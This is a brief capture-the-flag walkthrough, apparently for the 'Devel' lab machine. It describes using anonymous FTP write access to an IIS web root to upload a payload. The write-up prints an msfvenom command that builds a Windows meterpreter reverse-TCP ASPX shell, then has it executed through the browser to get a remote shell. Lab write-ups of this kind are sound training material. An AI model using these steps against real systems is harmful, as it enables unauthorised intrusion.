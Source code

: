 # Gaining a Foothold

### Devel

Nmap scan shows ports 21 and 80 are open

Port 80 hosts a default IIS 7 welcome page

The FTP server contains the IIS server files and allows anonymous access, allowing us to upload a reverse 
shell and execute it

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f aspx -o shell.aspx`

Upload the shell and navigate to 10.10.10.5/shell.aspx with multi/handler listener running to get a reverse 
shell
